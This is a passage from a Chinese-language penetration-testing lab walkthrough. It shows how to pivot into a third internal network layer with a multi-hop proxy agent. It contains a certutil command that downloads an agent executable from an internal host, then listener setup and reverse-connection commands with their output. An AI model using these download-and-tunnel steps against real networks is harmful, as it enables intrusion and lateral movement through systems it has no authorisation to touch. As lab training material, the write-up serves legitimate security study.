 经过测试不出网，选择将 agent 放在第二层网络 - 通达 OA 服务器上访问去下载。

```plaintext
certutil -urlcache -split -f http://192.168.52.30:8080/windows_x64_agent.exe
```

![验证第三层代理 -2.png](assets/1698895429-530ea9231bc5f57a8ba158d61cc84f32.png)

在节点 Note 1（通达 OA）上开启监听端口 192.168.93.20:20001。

```plaintext
(node 1) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 192.168.93.20:20001
[*] Waiting for response......
[*] Node is listening on 192.168.93.20:20001
(node 1) >> 
```

域内单机反向连接到 Note 1（第二层网络 - 通达 OA）。

```plaintext
C:\Users\moretz.WHOAMIANONY\Desktop>windows_x64_agent.exe -c 192.168.93.20:20001 -s test
2023/03/13 18:21:18 [*] Starting agent node actively.Connecting to 192.168.93.20:20001
```

OA 节点主动显示新节点 Note 2 连接，成为 Note 1 子节点。

